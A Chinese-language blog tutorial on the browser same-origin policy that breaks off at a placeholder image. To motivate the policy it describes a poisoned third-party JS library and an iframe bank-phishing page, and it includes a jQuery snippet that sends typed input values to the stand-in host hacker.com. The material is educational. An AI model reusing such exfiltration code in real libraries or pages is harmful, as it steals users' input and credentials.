 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决的问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些可能的web安全方面的隐患：

* <a name="s1">**情景1：**</a>假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}
var other = (function () {
    var getInputValAndSendToDB = function() {
        $('#text').on('change', function () {
            var val = $(this).val();
            send(val);
        });
    }
    var send = function (data) {
        $.get('http://www.hacker.com/?data=' + data, function (data) {
            console.log('来自第三方JS库的消息:');
            console.log(data);
        });
    };
    $(function () {
        getInputValAndSendToDB();
    });
})();
{% endhighlight %}

* **情景2：**再假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的内容没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input，或者将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。

好，现在我们有了两个情景，那这两种情景是否有可能浏览器中发生呢？接下来我们通过实验的方式来验证一下吧。

实验方案：

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(第三方JS库提供者)端口
* 开发者: 引用第三方提供的JS库: other.js。页面中放置一个input标签
* 第三方: 提供other.js，并在other.js中写入[情景1](#s1)中提到的恶意代码
* 实验过程: 在开发者页面的input中输入值，看是否会被发送到第三方服务器

实验过程:

开发者页面输入值: 
![Large example image](http://placehold.it/800x400 "Large example image")


